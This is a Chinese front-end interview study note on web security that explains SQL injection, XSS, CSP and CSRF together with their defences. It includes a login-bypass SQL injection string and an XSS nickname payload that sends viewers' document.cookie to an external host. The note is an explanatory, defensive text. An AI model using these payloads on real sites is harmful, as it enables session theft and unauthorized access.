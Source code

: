 ```yaml
---
nav:
  title: 面试
  path: /interview
toc: content
group:
  title: 💊 面试题库
  order: 2
---
```


# 安全

1. 引用 js 包（内容很少，也可以将内容拷贝出来，直接引用方法）
2. 将需要提交的数据经过 filter 即可，如下：

```javascript
浏览器自带转换为字符串
var newValue = safetools.encode(value)

正则加密（可能有兼容）
var newValue = safetools.reEncode(value)

正则解密（可能有兼容）
var newValue = safetools.reDecode(value)
```

> tag: 前端交互，涉及到数据流动并需要在返回在页面上显示的，一定要经过后端！

## 在项目里关于前端安全，可以采取以下措施

使用 HTTPS 确保数据在传输过程中的安全性。
验证用户输入，防范 XSS 攻击，使用 CORS 控制跨域资源访问。
更新依赖库和框架，以修补已知的安全漏洞。
避免在前端存储敏感信息，如密码，而依赖后端处理。
定期审查和更新安全策略，以适应新的威胁和最佳实践。

## 常见的攻击手段

### 1. SQL 脚本注入攻击于与防御

#### 概念

> 用户可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想得知的数据，这就是所谓的 SQL Injection，即 SQL 注入.

#### 场景

语句

```sql
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

如果恶意填入：

> userName = "1' OR '1'='1"; passWord = "1' OR '1'='1";

既可实现无密码登录，美滋滋吧...

#### 处理方式

前端和 XSS 处理类似，对传递的数据进行筛选，重点是后端对数据的处理！

### 2. XSS 攻击与防御

#### 概念

> 跨站脚本（Cross-site scripting，通常简称为：XSS）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了 HTML 以及用户端脚本语言。
> XSS 攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是 JavaScript，但实际上也可以包括 Java，VBScript，ActiveX，Flash 或者甚至是普通的 HTML。攻击成功后，攻击者可能得到更高的权限（如执行一些操作）、私密网页内容、会话和 cookie 等各种内容。

#### 类型

##### 简单分类

1. 反射型 xss

通过一次 xss 请求，将数据渲染到页面，请求 -> 返回数据，例子：搜索

2. 储存型 xss

通过一次 xss 请求，直接将数据储存在数据库，下次调用无需继续请求，例如：评论

##### 复杂分类

1. client 型
2. server 型

#### 处理方式

- 编码

> 将 > ( 标签转换为字符串，可以处理大多数 xss 攻击

- 过滤

> 有的语句并不完全依赖<>标签，例如 src="javascript:alert(1);"

- 校正

> 这个照理来说应该后端处理，目前没碰到这种场景

```javascript
> 一个直播平台，用户可以进入观看，主播可以设置自己的昵称:
var starNickName = '${starNickname}'
```

这怕是要翻水水了...假设是我是主播，我把昵称设置为：

```javascript
';window.location.href="http//:blog.jzxer.cn/?cook=" + document.cookie + '&url=' window.location.href;''
```

这一串如果传到后端，而后端又没有校正的话的话，这怕是傻眼了...观众进来一个死一个，我应该也会进去蹲几天吧，吧。。。

- CSP

```html
在头部加入：

<meta
  http-equiv="Content-Security-Policy"
  content="script-src 'self'; object-src 'none'; style-src cdn.example.org third-party.org; child-src https:"
/>
```

meta：不信任任何 URL，即不加载任何资源样式表只信任 cdn.example.org 和 third-party.org 框架 (frame) 必须使用 HTTPS 协议加载 其他资源：没有限制 启用后，不符合 CSP 的外部资源就会被阻止加载。

> 注意：该属性目前比较新，hotfix 和 chorme 支持较好，并不适用于所有的浏览器。

### 3. CSRF

> 跨站请求伪造（英语：Cross-site request forgery），也被称为 one-click attack 或者 session riding，通常缩写为 CSRF 或者 XSRF， 是一种挟制用户在当前已登录的 Web 应用程序上执行非本意的操作的攻击方法。跟跨网站脚本（XSS）相比，XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户网页浏览器的信任。简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。这利用了 web 中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。

#### 处理方式

- 验证码

在请求的同时，带个 token,或者验证码

- Referer Check

这个可以伪造...但加入更保险

> 注意：如果网站有 XSS 漏洞或者一些跨域漏洞，可能导致 Token 泄露。 在 XSS 攻击下，读取 Token 值，然后再构造出一个合法的请求，可以称为：XSRF。

### 小结

web 安全是个需要长期坚持的事情，没有绝对安全的产品，我们需要做到的就是能够提前预防和及时修复。
